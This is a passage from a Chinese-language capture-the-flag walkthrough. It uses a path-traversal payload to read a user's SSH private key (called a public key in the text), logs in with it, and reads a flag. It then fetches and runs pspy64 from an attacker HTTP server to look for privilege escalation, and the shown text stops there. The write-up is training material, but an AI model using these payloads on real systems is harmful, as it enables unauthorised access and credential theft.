 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

是用公钥登录的 ，试试能不能读取thanos用户目录下的公钥

payload

```
message=../../../../home/thanos/.ssh/id_rsa&submit=
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

成功读取公钥文件，把他保存下来，再来登录试试

```
ssh thanos@192.168.7.166 -p 52846 -i id_rsa
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

查看用户目录下有什么

```
`ls -al``cat flag1.txt`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

找到一个备份用的python脚本和flag1.txt，再来看下backup.py的内容

```
cat backup.py
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

这个脚本将/var/www/html目录备份到/tmp/website.zip

home目录下还有一个carlos用户目录，访问时提示没权限，找找提权信息

执行sudo -l 时确认hacker_in_the_town不是thanos的密码，suid也没有权限，上传pspy64

kali攻击机上开户http服务

```
python3 -m http.server
```

靶机上下载pspy64

```
wget http://192.168.7.3:8000/pspy64
```

pspy64加上执行权限并运行

```
`chmod +x pspy64``./pspy64`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  
